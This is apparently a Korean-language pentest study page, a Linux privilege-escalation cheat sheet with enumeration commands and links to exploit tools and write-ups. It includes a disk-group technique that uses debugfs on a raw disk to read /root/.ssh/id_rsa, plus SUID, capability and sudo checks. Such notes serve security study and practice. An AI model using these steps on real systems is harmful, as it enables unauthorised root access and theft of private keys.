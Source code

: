 ```bash
# OS정보 확인
cat /etc/issue

cat /etc/os-release

uname -a
```
```bash
# 프로세스 및 네트워크 상태 확인
ps aux

ifconfig

routel

ss -anp

cat /etc/iptables/rules.v4
- IPv4 iptables 방화벽 규칙 확인.
```
```bash
ls -al /etc/cron*
sudo crontab -l
```
```bash
# 패키지 목록 조회
dpkg -l
```
```bash
find / -writable -type d 2>/dev/null

find /etc -writable -type f 2>/dev/null

find /usr -writable -type f 2>/dev/null

find /var -writable -type f 2>/dev/null
```
```bash
# 마운트 및 디스크 정보 조회
cat /etc/fstab
- 부팅 시 자동 마운트되는 파일 시스템 정보 확인.

mount

lsblk
- 블록 디바이스(디스크, 파티션) 정보 출력.
```
```bash
# 커널 모듈 정보
lsmod
- 현재 로드된 커널 모듈 목록 표시.

/sbin/modinfo libata
- 특정 커널 모듈(`libata`)의 상세 정보 확인.
```
```bash
find / -perm -4000 -type f 2>/dev/null
```
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
```bash
sudo -l
```
---
# Linux Exploit Suggester
- https://github.com/The-Z-Labs/linux-exploit-suggester
- 예전 버전 리눅스 취약점 발견에 용이
---

# disk group privilege escalation
- https://www.hackingarticles.in/disk-group-privilege-escalation/
- `disk` 그룹은 **로우 블록 디바이스**(예: `/dev/sda`, `/dev/nvme0n1p2`)에 접근할 수 있습니다.  
```bash
df -h
- 현재 마운트된 파일시스템의 디스크 사용량을 사람이 읽기 쉬운 형태로 출력합니다.
```
<img width="689" height="248" alt="image" src="https://github.com/user-attachments/assets/96e0cff6-b9f2-4624-9c36-417a71ddac0c" />

```bash
debugfs /dev/sda3
- 파일시스템의 내부 구조를 조작하거나 디버깅할 수 있는 저수준 파일시스템 디버거 실행

mkdir test
- readonly로 설정되어 있으면 아래 코드 실행

cat /root/.ssh/id_rsa
```
# sudo group
```bash
sudo su
```
---
# rpc.py
- https://github.com/abersheeran/rpc.py
- https://www.exploit-db.com/exploits/50983
---
# makefile privesc
<img width="706" height="636" alt="image" src="https://github.com/user-attachments/assets/553e10b6-f5d7-4494-b3da-94c3167651d4" />
- https://medium.com/@adamforsythebartlett/makefile-privilege-escalation-oscp-62ea2c666d23
